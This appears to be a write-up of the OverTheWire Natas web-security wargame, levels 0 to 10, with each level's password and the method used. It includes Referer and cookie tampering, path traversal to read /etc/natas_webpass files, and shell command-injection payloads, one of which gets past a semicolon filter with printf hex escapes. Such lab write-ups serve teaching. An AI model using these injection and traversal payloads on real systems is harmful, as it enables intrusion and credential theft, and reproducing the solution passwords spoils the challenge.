 ## Natas Level 0
Inspect
![Alt text](image.png)

## 0 → Level 1
Inspect
```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

## Level 1 → Level 2
http://natas2.natas.labs.overthewire.org/files/
 
Is accessible.
```
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

## Level 2 → Level 3
http://natas3.natas.labs.overthewire.org/s3cr3t/  
Is accessible.

```
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

## Level 3 → Level 4
I used burp to edit the referer
![Alt text](image-1.png)
```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD 
```

## Level 4 → Level 5
Change coockie value to 1
![Alt text](image-2.png)
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

## Level 5 → Level 6
The source indicated we are including a file
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

```
So I added to the url path and found the secret there.
![Alt text](image-3.png)
```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
## Level 6 → Level 7
```
Following the description in the comments.
?page=/etc/natas_webpass/natas8
```
```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

## Level 7 → Level 8
I just reversed this 
```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
decode of `3d3d516343746d4d6d6c315669563362` is `==QcCtmMml1ViV3b`  
reverse: `b3ViV1lmMmtCcQ==`  
decode the reverse: `oubWYf2kBq`
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

## Level 8 → Level 9
I puted this in the search bar
```bash
k ;cat /etc/natas_webpass/natas10; echo
```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

## Level 9 → Level 10
; is not allowed but the ascii value if ; is 3B so I wrote
```bash
k $(printf "\\x3B") cat /etc/natas_webpass/natas11 $(printf "\\x3B") echo
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

## Level 10 → Level 11
